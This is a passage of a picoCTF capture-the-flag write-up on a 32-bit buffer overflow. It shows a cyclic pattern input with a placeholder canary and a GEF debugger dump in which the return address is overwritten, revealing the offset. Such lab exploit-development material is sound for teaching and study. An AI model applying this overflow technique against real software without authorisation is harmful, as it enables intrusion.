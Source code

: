 So we get first part :

```
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaallll
```

where `llll` is our canary example that we put in the `canary.txt`. And after running a big valued string, we get :

```
gef➤  ni

[ Legend: Modified register | Code | Heap | Stack | String ]
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── registers ────
$eax   : 0x0       
$ebx   : 0x61616174 ("taaa"?)
$ecx   : 0x6c0     
$edx   : 0xf7e229b4  →  0x00000000
$esp   : 0xffffcf10  →  "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"
$ebp   : 0x61616175 ("uaaa"?)
$esi   : 0xffffcff4  →  0xffffd1b5  →  "/home/rivench/Documents/picoCTF/pwn/buffer_overflo[...]"
$edi   : 0xf7ffcb80  →  0x00000000
$eip   : 0x61616176 ("vaaa"?)
$eflags: [zero carry parity adjust SIGN trap INTERRUPT direction overflow resume virtualx86 identification]
$cs: 0x23 $ss: 0x2b $ds: 0x2b $es: 0x2b $fs: 0x00 $gs: 0x63 
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── stack ────
0xffffcf10│+0x0000: "waaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabja[...]"    ← $esp
0xffffcf14│+0x0004: "xaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabka[...]"
0xffffcf18│+0x0008: "yaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaabla[...]"
0xffffcf1c│+0x000c: "zaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabma[...]"
0xffffcf20│+0x0010: "baabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabna[...]"
0xffffcf24│+0x0014: "caabdaabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboa[...]"
0xffffcf28│+0x0018: "daabeaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpa[...]"
0xffffcf2c│+0x001c: "eaabfaabgaabhaabiaabjaabkaablaabmaabnaaboaabpaabqa[...]"
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── code:x86:32 ────
[!] Cannot disassemble from $PC
[!] Cannot access memory at address 0x61616176
──────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── threads ────
[#0] Id 1, Name: "vuln", stopped 0x61616176 in ?? (), reason: SINGLE STEP
────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────── trace ────
─────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────────
gef➤  

```
